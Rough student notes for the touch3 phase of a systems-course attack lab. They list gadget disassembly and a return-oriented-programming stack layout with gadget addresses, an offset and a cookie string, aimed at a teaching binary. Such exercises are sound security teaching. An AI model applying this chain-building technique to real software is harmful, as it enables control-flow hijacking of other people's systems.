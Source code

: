 - <addval_273> + 2
    movq %rax,%rdi
    ret

- <addval_219> + 4
    popq %rax
    nop
    ret

- <setval_237> + 2
    movq %rax,%rdi or movl %eax,%edi

- <setval_426> + 2
    movq %rax,%rdi

- <getval_481>> + 2
    movl %eax,%edx
    nop
    ret

<!-- - 00000000004019e8 <addval_113> + 2
    89 ce 78 c9 
    movl %ecx,%esi -->

- 00000000004019ef <addval_490> + 4
    20 db c3
    andb %bl,%bl
    ret

<!-- 00000000004019f6 <getval_226> + 1
    4019f6:	b8 89 d1 48 c0       
    4019fb:	c3    
    movl %edx,%ecx -->

00000000004019fc <setval_384>: + 4
  4019fc:	c7 07 81 d1 84 c0    
  401a02:	c3                   
  testb %al,%al

000000000401a03 <addval_190>: + 3
 401a03:	8d 87 41 48 89 e0    
 401a09:	c3            
 movq %rsp,%rax
 ret



the address of touch3 : 0x4018fa
move char*(from %rax) to %rdi
popq %rax(move char* to %rax)


78                  String                                  35 39 62 39 39 37 66 61
70                  address of touch3                       0x4018fa
68                  address of (mov %rax,%rdi)              0x4019a2
60                  address of (lea (%rdi,%rsi,1),%rax)     0x4019d6
58                  address of (movq %ecx,%rsi)             0x401a13 
50                  address of (movq %edx,%ecx functional nop)             0x401a34
48                  address of (movq %eax,%edx functional nop)             0x401a42
40                  DISTANCE = 0x50 = 80                    0x50
38                  address of (popq rax)                   0x4019ab
30                  address of (movq %rax,%rdi)  rdi = 28   0x4019a2
28(top of stack)    address of (movq %rsp,%rax) rax = 28    0x401a06
0                       







00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00







               





